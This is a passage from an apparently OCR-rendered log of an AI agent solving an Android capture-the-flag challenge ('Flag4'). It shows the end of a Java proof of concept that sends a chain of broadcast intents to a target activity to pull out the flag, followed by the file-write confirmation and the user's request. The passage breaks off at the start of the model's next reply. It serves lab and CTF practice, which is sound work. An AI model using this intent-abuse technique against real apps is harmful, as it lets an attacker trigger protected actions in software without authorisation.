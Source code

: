            '        Log.d("MaliciousFlag4PoC", "Sent reset intent '
            '(INIT_ACTION).");\n'
            '\n'
            '\n'
            '        // Step 1: Send PREPARE_ACTION\n'
            '        Intent prepareIntent = new Intent(PREPARE_ACTION);\n'
            '        prepareIntent.setComponent(new '
            'ComponentName(TARGET_PACKAGE, TARGET_ACTIVITY));\n'
            '        sendBroadcast(prepareIntent);\n'
            '        Log.d("MaliciousFlag4PoC", "Sent PREPARE_ACTION.");\n'
            '\n'
            '        // Step 2: Send BUILD_ACTION\n'
            '        Intent buildIntent = new Intent(BUILD_ACTION);\n'
            '        buildIntent.setComponent(new '
            'ComponentName(TARGET_PACKAGE, TARGET_ACTIVITY));\n'
            '        sendBroadcast(buildIntent);\n'
            '        Log.d("MaliciousFlag4PoC", "Sent BUILD_ACTION.");\n'
            '\n'
            '        // Step 3: Send GET_FLAG_ACTION\n'
            '        Intent getFlagIntent = new Intent(GET_FLAG_ACTION);\n'
            '        getFlagIntent.setComponent(new '
            'ComponentName(TARGET_PACKAGE, TARGET_ACTIVITY));\n'
            '        sendBroadcast(getFlagIntent);\n'
            '        Log.d("MaliciousFlag4PoC", "Sent GET_FLAG_ACTION.");\n'
            '\n'
            '        // Step 4: Send a final intent to trigger success(this) '
            'from GET_FLAG state\n'
            "        // Any intent will work here, let's re-send "
            'GET_FLAG_ACTION or an empty intent\n'
            '        Intent triggerSuccessIntent = new Intent(); // An empty '
            'intent is sufficient\n'
            '        triggerSuccessIntent.setComponent(new '
            'ComponentName(TARGET_PACKAGE, TARGET_ACTIVITY));\n'
            '        sendBroadcast(triggerSuccessIntent);\n'
            '        Log.d("MaliciousFlag4PoC", "Sent final trigger intent to '
            'get flag.");\n'
            '\n'
            '        Toast.makeText(this, "Exploit intents sent. Check logs '
            'for flag.", Toast.LENGTH_LONG).show();\n'
            '        finish(); // Close the malicious activity\n'
            '    }\n'
            '}',
 'file_path': 'MaliciousFlag4PoC.java'})

--- Tool Observation ---
Success: Wrote 2740 bytes to '/Users/apple/projects/ultron-ai/test_data/Android-2/MaliciousFlag4PoC.java'.


==================== TURN 6/50 ====================

--- Request to Model ---
Role: user
Text: My mission is to: This is decompiled code of android app, I want u to analyse the code and solve the Flag4 challenege by providing a working poc to solve the challenge in that activity. Begin your analysis.
----------
Role: model
Text: **PHASE 1: Project Comprehension & Strategy Formulation**
